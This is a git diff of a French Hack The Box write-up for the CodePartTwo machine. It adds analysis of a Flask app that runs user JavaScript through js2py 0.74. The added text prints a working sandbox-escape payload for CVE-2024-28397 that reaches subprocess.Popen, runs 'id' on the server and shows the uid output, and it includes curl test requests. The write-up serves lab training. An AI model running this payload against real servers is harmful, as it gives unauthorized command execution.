

codeparttwo.htb rédaction exploitation suite test cmd id

diff --git a/content/writeups/codeparttwo/index.md b/content/writeups/codeparttwo/index.md
@@ -438,8 +438,6 @@ Plutôt que de cibler immédiatement le service **SSH**, tu vas donc commencer p
 
 ### Analyse de l’application web
 
-#### Observation de la page d’accueil
-
 En ouvrant l’application dans ton navigateur à l’adresse suivante :
 
 ```bash
@@ -448,26 +446,26 @@ http://codeparttwo.htb:8000
 
 tu arrives sur la page d’accueil de l’application CodePartTwo.
 
-![Interface de la page d’accueil de l’application CodePartTwo sur le port 8000 avec les boutons Go to Dashboard et Download App permettant d’accéder au dashboard ou de télécharger l’application](codeparttwo_home_page.png)
+![Page d’accueil de l’application CodePartTwo HTB avec les boutons Login, Register et Download App](codeparttwo_home_page.png)
 
 
 
-L’interface est volontairement très simple et propose deux actions principales :
+La page présente brièvement le projet **CodePartTwo**, une plateforme qui permet aux développeurs **d’écrire, sauvegarder et exécuter du code JavaScript** directement depuis l’application.
 
-- **Go to Dashboard**
+L’interface reste volontairement simple et met en avant trois actions principales :
+
+- **Login**
+- **Register**
 - **Download App**
 
-#### Routes accessibles dans l’application
+Les boutons **Login** et **Register** permettent respectivement de **se connecter** ou de **créer un compte utilisateur** afin d’accéder aux fonctionnalités de l’application.
 
-Le bouton **Go to Dashboard** te mène vers l’espace principal de l’application.
- Cet espace **pourrait toutefois nécessiter un compte utilisateur**, ce qui implique généralement une étape d’**inscription** ou de **connexion**.
+Le bouton **Download App**, lui, est particulièrement intéressant dans un contexte **Hack The Box** : il te permet de **télécharger directement l’application**.
 
-Le bouton **Download App**, lui, est particulièrement intéressant dans un contexte **Hack The Box** : il **t’offre la possibilité de télécharger directement l’application**.
+Dans un CTF, lorsque le code source d’une application est accessible, cela représente souvent une opportunité importante.
+ L’analyse du code peut en effet t’aider à comprendre **le fonctionnement interne de l’application**, à identifier les **routes disponibles**, et parfois à repérer **une vulnérabilité exploitable**.
 
-Dans un CTF, lorsqu’un site web donne accès au **code source de l’application**, c’est souvent une opportunité très précieuse.
- L’analyse du code **pourrait en effet t’aider à comprendre** comment fonctionne l’application, à identifier les **points sensibles**, et parfois à découvrir **directement la vulnérabilité exploitable**.
-
-La prochaine étape consiste donc à **télécharger cette application afin d’analyser son code plus en détail**.
+La prochaine étape consiste donc à **télécharger l’application afin d’analyser son code plus en détail**.
 
 ### Téléchargement et analyse du code source
 #### Téléchargement de l’application
@@ -521,19 +519,232 @@ Autrement dit, analyser ce fichier permet souvent de comprendre **le fonctionnem
 Dans la section suivante, tu vas donc **examiner le fichier `app.py`** afin d’identifier les fonctionnalités exposées par l’application.
 
 ### Identification de la fonctionnalité d’exécution de code
-#### Analyse de la route /run_code
-#### Utilisation de la bibliothèque js2py
+En poursuivant l’analyse du projet, deux fichiers sont particulièrement utiles :
+
+- **`requirements.txt`**, qui liste les dépendances Python
+- **`app.py`**, qui contient la logique de l’application
+
+Le fichier **`requirements.txt`** contient notamment :
+
+```texte
+flask==3.0.3
+flask-sqlalchemy==3.1.1
+js2py==0.74
+```
+
+Les dépendances **Flask** et **Flask-SQLAlchemy** confirment que l’application repose sur une architecture Python classique avec un framework web et une base de données.
+
+En revanche, la présence de **`js2py==0.74`** constitue un **élément beaucoup plus sensible du point de vue de la sécurité**.
+
+La bibliothèque **js2py** permet en effet **d’exécuter du code JavaScript directement depuis Python**. Autrement dit, elle embarque un **interpréteur JavaScript dans l’application**.
+
+Dans un contexte de développement, ce type de bibliothèque peut être utilisé pour permettre aux utilisateurs **d’écrire ou de tester du code JavaScript**.
+
+Dans un **CTF Hack The Box**, la présence d’un interpréteur de code est toujours un point à examiner attentivement : si l’environnement d’exécution n’est pas correctement isolé, il peut parfois être possible de **sortir de la sandbox et d’interagir avec le système sous-jacent**.
+
+La prochaine étape consiste donc à vérifier **où et comment cette bibliothèque est utilisée dans l’application**.
+
+En examinant ensuite le fichier **`app.py`**, tu retrouves justement l’import de cette bibliothèque :
+
+```python
+import js2py
+```
+
+Un peu plus loin dans le code, une route attire particulièrement l’attention :
+
+```python
+@app.route("/run_code", methods=["POST"])
+def run_code():
+```
+
+Le nom de cette route est déjà très explicite : **`/run_code`** suggère une fonctionnalité d’**exécution de code**.
+
+En lisant la fonction associée, tu peux voir que l’application récupère le contenu envoyé par l’utilisateur, puis le transmet à **`js2py`** pour exécution :
+
+```python
+@app.route("/run_code", methods=["POST"])
+def run_code():
+    user_code = request.json.get("code")
+    context = js2py.EvalJs()
+    result = context.eval(user_code)
+    return jsonify({"result": result})
+```
+
+Cette portion de code montre clairement le fonctionnement :
+
+- l’utilisateur envoie du code dans le champ **`code`**
+- l’application crée un contexte JavaScript avec **`js2py.EvalJs()`**
+- le contenu reçu est exécuté avec **`context.eval(user_code)`**
+- le résultat est renvoyé au format **JSON**
+
+Autrement dit, la route **`/run_code`** ne sert pas simplement à manipuler du code JavaScript : elle est directement reliée à **`js2py`** et permet à l’application **d’exécuter le code JavaScript envoyé par l’utilisateur directement sur le serveur**.
+
+La prochaine étape consiste donc à **tester concrètement cette route** afin de vérifier si le serveur exécute effectivement le code JavaScript envoyé par l’utilisateur.
 
 ### Exploitation de l’exécution de code
 #### Test de l’API
-#### Bypass de la sandbox js2py
+
+L’analyse du fichier **`app.py`** montre que la route **`/run_code`** reçoit du code JavaScript envoyé par l’utilisateur et l’exécute à l’aide de la bibliothèque **`js2py`**.
+
+La première étape consiste donc à **tester cette API en pratique** afin de vérifier si le serveur exécute réellement le code JavaScript envoyé dans la requête.
+
+Tu peux pour cela utiliser **`curl`** afin d’envoyer une requête HTTP **POST** vers cette route.
+
+```bash
+curl -X POST http://codeparttwo.htb:8000/run_code \
+  -H "Content-Type: application/json" \
+  -d '{"code":"1+1"}'
+```
+
+Dans cette requête :
+
+- la méthode **POST** est utilisée pour appeler l’API
+- l’en-tête **Content-Type: application/json** indique que les données sont envoyées au format JSON
+- le champ **`code`** contient le code JavaScript à exécuter
+
+Si l’API fonctionne comme suggéré par le code source, le serveur doit exécuter l’expression JavaScript **`1+1`** puis renvoyer le résultat dans la réponse.
+
+La réponse obtenue confirme ce comportement :
+
+```bash
+{"result": 2}
+```
+
+Cela signifie que :
+
+- la route **`/run_code`** est bien accessible
+- le code JavaScript envoyé dans la requête est **effectivement exécuté côté serveur**
+- le résultat de l’exécution est renvoyé au format **JSON**
+
+Cette étape confirme donc que l’application expose **un mécanisme d’exécution de code JavaScript côté serveur**.
+
+La prochaine étape consiste maintenant à examiner **si l’environnement `js2py` est correctement isolé**, ou s’il est possible d’interagir avec les objets Python sous-jacents.
+ Si ce n’est pas le cas, il pourrait être possible de **sortir de la sandbox et d’accéder au système**.
+
+#### Évasion de la sandbox JavaScript (js2py)
+
+Le test précédent a confirmé que la route **`/run_code`** permet d’exécuter du code JavaScript envoyé par l’utilisateur.
+Ce code est interprété côté serveur à l’aide de la bibliothèque **`js2py`**.
+
+En théorie, cette exécution devrait se faire dans une **sandbox**, c’est-à-dire un environnement isolé censé empêcher l’accès au système ou aux objets internes de l’application.
+
+À ce stade, une bonne pratique consiste à rechercher si la bibliothèque utilisée présente **des vulnérabilités connues**.
+ Une recherche rapide du type :
+
+```texte
+js2py 0.74 poc exploit github
+```
+
+permet rapidement de trouver un **Proof of Concept** décrivant une vulnérabilité dans **js2py 0.74**.
+
+La première réponse de cette recherche renvoie vers le dépôt GitHub de **Marven11**, qui décrit une **évasion de la sandbox js2py (CVE-2024-28397)** :
+
+https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape
+
+La plupart des autres articles et analyses disponibles sur Internet se réfèrent d’ailleurs souvent à ce travail initial.
+
+Ce PoC montre qu’il est possible de **sortir de la sandbox JavaScript et d’accéder à l’environnement Python sous-jacent**, ce qui ouvre la voie à l’exécution de commandes sur le serveur.
+
+Il reste maintenant à tester cette technique sur l’API `/run_code` afin de vérifier si l’application est vulnérable.
+
+#### Explication du PoC de Marven11
+
+Dans **`app.py`**, on peut voir que l’application tente de sécuriser l’environnement d’exécution avec l’instruction :
+
+```
+js2py.disable_pyimport()
+```
+
+Cette fonction est censée empêcher l’import de modules Python depuis le code JavaScript exécuté par **js2py**, afin d’éviter qu’un utilisateur puisse accéder directement aux fonctionnalités du système.
+
+Cependant, le PoC publié par **Marven11** montre qu’il est possible de **contourner cette restriction**.
+ L’exploitation repose sur l’utilisation des mécanismes d’introspection de Python accessibles indirectement depuis l’environnement JavaScript.
+
+Le payload commence par récupérer certains attributs internes comme **`__class__`** et **`__base__`**, puis parcourt les **classes Python disponibles en mémoire** grâce à la méthode **`__subclasses__()`**.
+ Cette recherche permet finalement d’identifier la classe **`subprocess.Popen`**, qui peut être utilisée pour **exécuter des commandes système**.
+
+Une fois cette classe trouvée, le PoC l’utilise pour lancer une commande sur le système et récupérer le résultat avec **`.communicate()`**.
+
+Autrement dit, même si **`js2py.disable_pyimport()`** empêche l’import direct de modules Python, il reste possible de **remonter vers les objets internes de Python et d’exécuter des commandes système**, ce qui permet de sortir de la sandbox **js2py**.
+
+#### Test de l’exploitation sur la cible
+
+Pour vérifier si la cible est vulnérable à cette technique, tu peux adapter le PoC et tester l’exploitation directement depuis l’interface web de l’application.
+
+Commence par créer un compte utilisateur via la page **Register**. Par exemple :
+
+```
+noelnac : password123
+```
+
+Une fois l’inscription effectuée, connecte-toi via **Login**.
+ Tu arrives alors sur le **dashboard**, qui permet d’exécuter du code JavaScript grâce à la fonctionnalité **Run Code**.
+
+Tu peux alors copier-coller le payload publié par **Marven11** dans l’interface.
+ Pour simplifier le test, il suffit de remplacer la commande par **`id`** :
+
+```javascript
+let cmd = "id"
+let hacked, bymarve, n11
+let getattr, obj
+
+hacked = Object.getOwnPropertyNames({})
+bymarve = hacked.__getattribute__
+n11 = bymarve("__getattribute__")
+obj = n11("__class__").__base__
+getattr = obj.__getattribute__
+
+function findpopen(o) {
+    let result;
+    for(let i in o.__subclasses__()) {
+        let item = o.__subclasses__()[i]
+        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
+            return item
+        }
+        if(item.__name__ != "type" && (result = findpopen(item))) {
+            return result
+        }
+    }
+}
+
+n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
+console.log(n11)
+n11
+```
+
+En cliquant sur **Run Code**, l’application renvoie cependant l’erreur suivante :
+
+```texte
+Error: 'NoneType' object is not callable
+```
+
+Cette erreur provient de la fonction **`.communicate()`**.
+ Dans Python, cette méthode renvoie un **tuple contenant la sortie standard et la sortie d’erreur de la commande exécutée**.
+
+Dans notre cas, la sortie de la commande se trouve dans **le premier élément du tuple**.
+ Il faut donc récupérer cette valeur et la convertir en texte.
+
+En modifiant légèrement la dernière ligne du payload, par exemple :
+
+```javascript
+n11[0].decode()
+```
+
+le résultat est correctement renvoyé par l’application :
+
+```texte
+uid=1001(app) gid=1001(app) groups=1001(app)
+```
+
+![Dashboard de CodePartTwo HTB montrant l’exécution du payload js2py sandbox escape avec la commande id et le résultat uid=1001(app) gid=1001(app)](dashboard_cmd_id_n11_decode.png)
+
+Cette réponse confirme que le payload parvient bien à **sortir de la sandbox js2py et à exécuter une commande système sur le serveur**.
 
 ### Extraction de données sensibles
 #### Récupération de la base instance/users.db
 #### Analyse de la base SQLite
 
-### Connexion SSH
-#### Accès à la machine avec l’utilisateur marco
+### Connexion SSH avec l’utilisateur marco
 ## Récupération du user flag
 
 
